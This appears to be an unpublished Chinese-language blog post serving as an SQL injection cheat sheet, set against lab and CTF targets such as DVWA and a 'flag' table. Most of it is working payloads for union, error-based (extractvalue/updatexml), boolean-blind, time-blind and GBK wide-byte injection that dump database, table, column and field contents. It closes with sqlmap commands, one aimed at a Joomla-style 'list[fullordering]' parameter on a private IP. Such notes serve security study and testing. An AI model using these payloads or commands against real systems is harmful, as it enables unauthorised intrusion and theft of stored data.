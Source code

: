 ```yaml
---
layout: post
title: SQL注入
subtitle: SQL注入
date: 2025-07-09 14:58
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: false
---
```


## SQL注入分类

```
按SQLMap中的分类来看，SQL注入类型有以下 5 种：
UNION query SQL injection（可联合查询注入）
Stacked queries SQL injection（可多语句查询注入）
Boolean-based blind SQL injection（布尔型注入）
Error-based SQL injection（报错型注入）
Time-based blind SQL injection（基于时间延迟注入）
```

**手工注入常规思路：**

1. 判断是否存在注入，注入是字符型还是数字型
2. 猜解 SQL 查询语句中的字段数
3. 确定显示的字段顺序
4. 获取当前数据库
5. 获取数据库中的表
6. 获取表中的字段名
7. 查询到账户的数据

**SELECT 特殊应用**

```mysql
SELECT DATABASE();	--查看当前使用数据库
SELECT VERSION();	--版本
SELECT USER();		--查看当前登陆数据库用户
select @@datadir;	--数据路径
select @@basedir;	--mysql安装路径
select @@version_compile_os;	--mysql安装的所在os系统
```

## 相关函数

相关函数：`UpdateXML()`, `ExtractValue()`, `concat()`, `substr()`
#### UpdateXML(xml_doc,xpath_expr,new_xml)

此函数将xml_doc中用xpath_expr路径匹配到XML片段用new_xml替换，然后返回更改后的XML，三个参数都为字符串。
xml_doc被替换的部分与xpath_expr提供的XPath表达式匹配。
如果找不到表达式匹配 xpath_expr项，或者找到多个匹配项，则该函数返回原始 xml_doc片段。

**报错原理**：利用concat(a_str,sql_str)构造不符合Xpath语法的字符串，导致其解析时报错，updatexml函数将返回报错内容，其中a_str用于让Xpath解析失败，sql_str为正确的能被解析的sql语句。
#### ExtractValue(xml_doc, xpath_expr)

此函数是返回在xml_doc用xpath_expr路径匹配到的XML片段。报错原理与updatexml()相同。
#### substr(str_target,pos,length)

对str_target字符串进行截取，从第pos位开始，返回长度为length的字符串。
其中，pos从1开始。
## 手工注入
#### 联合查询

```mysql
-- 获取table
union select database(),group_concat(table_name) from information_schema.tables where table_schema=database()--+
-- 获取column
union select database(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag'--+
-- or
union select database(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x666c6167--+
-- 获取表中值
union select database(),group_concat(flag) from flag--+
```
#### 报错查询

```mysql
# 获取数据库名
and extractvalue(1,concat(0x7e,database()))--+
# 获取表名
and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))--+
# 获取列名
and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag')))--+
# 获取字段值
and extractvalue(1,concat(0x7e,substr((select group_concat(flag) from flag),1,30)))--+
```
#### 布尔盲注

```mysql
# 猜数据库名长度
1 and length(database())=100--+
# 猜数据库字符值
1 and ascii(substr(database(),1,1))=100--+
# 猜表数量
1 and (select count(table_name) from information_schema.tables where table_schema=database())=100--+
# 猜表长度
1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=100--+
# 猜表字段
1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=100--+
# 猜列数量
1 and (select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag')=100--+
# 猜列长度
1 and length((select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag' limit 0,1))=100--+
# 猜列字段
1 and ascii(substr((select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag' limit 0,1),1,1))=100--+
# 猜数据值数量
1 and (select count(flag) from flag)=100--+
```
#### 时间盲注

```mysql
# 猜数据库名长度
1 and if(length(database())=100,sleep(3),0)--+
```
#### 宽字节注入


使用条件：
编码格式：GBK, GBK2312等
过滤函数：mysql_real_escape_string, addslashes等

原理：为绕过转义处理，使转义字符与输入字符结合成一个新的字符，使其无法转义

```mysql
'1%df' or 1=1 #

# 16进制ASCII
'-1%df' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273 --+
# group by
'-1%df' union select 1,table_name,group_concat(column_name) from information_schema.columns where table_schema=database() group by table_name limit 3,1 --+
```

## 工具注入

#### sqlmap

```shell
# 获取数据库
sqlmap -u "http://dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch --dbs
# 获取表
sqlmap -u "http://dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa --tables
# 获取列
sqlmap -u "http://dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users --columns
# 获取数据
sqlmap -u "http://dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users -C user --dump
```

```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbs --batch
```